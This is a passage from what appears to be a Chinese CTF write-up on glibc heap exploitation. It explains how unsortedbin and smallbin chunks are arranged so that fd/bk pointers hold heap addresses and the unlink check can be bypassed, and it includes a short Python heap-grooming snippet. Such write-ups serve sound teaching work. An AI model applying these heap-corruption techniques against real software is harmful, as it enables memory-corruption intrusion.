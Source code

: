 这轮delete算是比较关键的一轮，因为它将54号堆块放在了unsortedbin链的中间位置，造成了这个fd bk都是heap地址，这里的fd、bk地址之后如果可以指向0xb00我们就绕过了unlink检测（下面主要做了这件事）

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ffad90bf4e82f5d7.png)

看一下堆的情况（这里可能地址对不上，因为调试了两次，可以看最后三位偏移理解）

因为后面delete(53)，所以这里进行了合并0x131大小

[![](https://p5.ssl.qhimg.com/t015fb034965d17c6c2.png)](https://p5.ssl.qhimg.com/t015fb034965d17c6c2.png)

对应的堆总体分布是

[![](https://p5.ssl.qhimg.com/t01c64f45558cc5cbe7.png)](https://p5.ssl.qhimg.com/t01c64f45558cc5cbe7.png)

我个人理解这一步是为了将54号堆块写上heap的fd、bk，脚本中写的是50 与 59附近的，那么之后肯定会50和59堆上保留类似heap，绕过fd bk检测

之后的操作，这里就根据之前的堆块情况进行对比

```
#---------------add back
    claim(0x88)
    claim(0x98)
    claim(0xe8)
    #---------------add back


    add(0xd8)# 0x32  将几个unsortedbin 分别放入对应的smallbin 选择0xe8的进行分配  原来的59号
    add(0xb8)# 0x35  0x131的smallbin切分



    #---将55号放入unsortedbin
    for i in range(0,7):#0x88
        delete(i)
    delete(55)
    claim(0x88)
    #---将55号放入unsortedbin , 扩大原来的53 54 unsortedbin




    add(0xb8)#0x36
    add(0x98)#0x37   这个是smallbin  这个是原来的50
    add(0x38)#0x3b   0x36+0x3b正好清空unsortedbin
```

堆的总体情况（左边是之前的，右边是现在的）

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01b8e634b4d084e7f3.png)
